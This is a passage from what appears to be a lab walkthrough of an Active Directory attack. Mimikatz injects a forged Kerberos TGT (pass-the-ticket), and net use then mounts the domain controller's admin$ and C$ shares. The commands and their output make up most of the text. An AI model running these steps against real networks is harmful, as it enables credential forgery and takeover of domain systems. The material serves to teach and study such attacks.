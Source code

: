 ```shell
               2 Dir(s)  19,953,479,680 bytes free
```

From here, we need to run the [klist](https://technet.microsoft.com/en-us/library/hh134826(v=ws.11).aspx) command and purge all the cached Kerberos Tickets to prevent issues when forging a new one.

```shell
C:\share\x64>klist purge

Current LogonId is 0:0x24096
        Deleting all tickets:
        Ticket(s) purged!
```

Once that has been completed and all Kerberos tickets are purged from cache, we can utilize Mimikatz to inject our forged Kerberos TGT to gain a valid TGS (Kerberos Service Ticket).

```shell
C:\share\x64>mimikatz.exe "Kerberos::ptc TGT_e.lindsey@gds-office.lab.ccache"

  .#####.   mimikatz 2.1 (x64) built on Nov 26 2016 02:28:33
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 20 modules * * */

mimikatz(commandline) # Kerberos::ptc TGT_e.lindsey@gds-office.lab.ccache

Principal : (01) : e.lindsey ; @ GDS-OFFICE.LAB

Data 0
           Start/End/MaxRenew: 2/9/2017 8:12:51 PM ; 2/10/2017 6:12:51 AM ; 2/16/2017 8:12:51 PM
           Service Name (01) : krbtgt ; GDS-OFFICE.LAB ; @ GDS-OFFICE.LAB
           Target Name  (01) : krbtgt ; GDS-OFFICE.LAB ; @ GDS-OFFICE.LAB
           Client Name  (01) : e.lindsey ; @ GDS-OFFICE.LAB
           Flags 50a00000    : pre_authent ; renewable ; proxiable ; forwardable ;
           Session Key       : 0x00000017 - rc4_hmac_nt
             443f1a3d8f096a61b556551365bdf5ee
           Ticket            : 0x00000000 - null              ; kvno = 2        [...]
           * Injecting ticket : OK

mimikatz # exit
Bye!
```

## Finding the WIN-DC0 Token:

Now that we have a valid TGS, let's go ahead and use the [net use](https://technet.microsoft.com/en-us/library/bb490717.aspx) command to mount the __admin$__ share of the WIN-DC0 machine, and then mount the __C$__ drive of the WIN-DC0 machine to the __K__ network share.

```shell
C:\share\x64>net use \\WIN-DC0.gds-office.lab\admin$
The command completed successfully.

C:\share\x64>net use K: \\WIN-DC0.gds-office.lab\C$
The command completed successfully.
```
